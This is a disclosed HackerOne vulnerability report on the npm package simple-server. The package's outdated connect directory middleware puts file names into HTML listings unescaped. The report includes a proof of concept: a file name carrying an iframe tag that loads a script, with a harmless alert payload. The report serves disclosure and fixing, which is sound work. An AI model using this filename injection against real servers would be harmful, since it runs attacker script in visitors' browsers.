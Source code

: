 # [simple-server] HTML with iframe element can be used as filename, which might lead to load and execute malicious JavaScript 

## Report Details
- **Report ID**: 309641
- **URL**: https://hackerone.com/reports/309641
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-01-26T21:38:57.170Z
- **Disclosed**: 2018-03-01T23:04:03.545Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

**simple-server** allows to embed HTML in file names, which (in certain conditions) might lead to execute malicious JavaScript. This is caused by outdated version of ```connect``` framework.

**Module:** 

Simple Server allows you to easily get a node.js static file server up and running anywhere anytime.

https://www.npmjs.com/package/simple-server

**Description**

This issue is exactly the same I've reported for ```anywhere``` module (https://hackerone.com/reports/309394).
The problem is outdated ```connect``` framework (2.10.0) with obsolete middleware used to display content of the directory as HTML.

This is the code which allows to embed HTML in file names and execute attack described in PoC (```/node_modules/connect/lib/middleware/directory.js```, lines 192-197):

```javascript

    return '<li><a href="'
      + utils.normalizeSlashes(normalize(path.join('/')))
      + '" class="'
      + classes.join(' ') + '"'
      + ' title="' + file + '">'
      + icon + file + '</a></li>';
```

As you can see, ```file``` is output directly into HTML without any sanitization.

Now, take a look how the same fragment of code looks in ```serve-index``` middleware, introduced in place of old middlewares like ```directory.js``` above, and  used in current Connect and Express frameworks (https://github.com/expressjs/serve-index/blob/a399faa1801f02ee1885e5664ed21a9c7990b63a/index.js#L279):

```javascript
return '<li><a href="'
      + escapeHtml(normalizeSlashes(normalize(path.join('/'))))
      + '" class="' + escapeHtml(classes.join(' ')) + '"'
      + ' title="' + escapeHtml(file.name) + '">'
      + '<span class="name">' + escapeHtml(file.name) + '</span>'
      + '<span class="size">' + escapeHtml(size) + '</span>'
      + '<span class="date">' + escapeHtml(date) + '</span>'
      + '</a></li>';
```

All output data is sanitized with ```escapeHtml()``` which sanitizes HTML before is send to browser.

I think this is the problem of all older npm modules using old versions of Connect middlewares like ```directory.js```.


## PoC - Steps To Reproduce:

In the directory which will be served via ```simple-server```, create file with following name:

```
"><iframe src="malware_frame.html">
```

Then, HTML file with following content have to be saved in the same directory as file with the name changed:

```
<html>

<head>
    <meta charset="utf8" />
    <title>Frame embeded with malware :P</title>
</head>

<body>
    <p>iframe element with malicious code</p>
    <script type="text/javascript" src="malware.js"></script>
</body>

</html>
```

An ```src``` attribute value I've used here is just for PoC purpose, this can be any external url.
On my local machine, ```malware.js``` has following content:

```
alert('Uh oh, I am very bad malware!')
```

Run ```simple-server`` in directory where both file with filename changed and ```malware_frame.html``` are saved:

```
$ ./node_modules/simple-server/bin/simple-server.js ./ 8080
Simple-Server listening to http://:::8080/ with directory /Users/bl4de/playground/node_bugbounty_playground
```

and open ```http://127.0.0.1:8080``` in the browser, you can see JavaScript from ```malware.js``` is executed.

## Supporting Material/References:

Configuration I've used to find this vulnerability:

- macOS HighSierra 10.13.3
- node 8.9.3
- npm 5.5.1
- curl 7.54.0

## Wrap up

I hope this report will help to keep Node ecosystem more safe. If you have any questions about any details of this finding, please let me know in comment.

Thank you

Regards,

Rafal 'bl4de' Janicki

## Impact

Exploitation of this vulnerability in the wild might be hard, however it's not impossible and it depends only on attacker's skills to get into directory on the server, where ```simple-server``` is used to serve static content.

## Attachments
No attachments
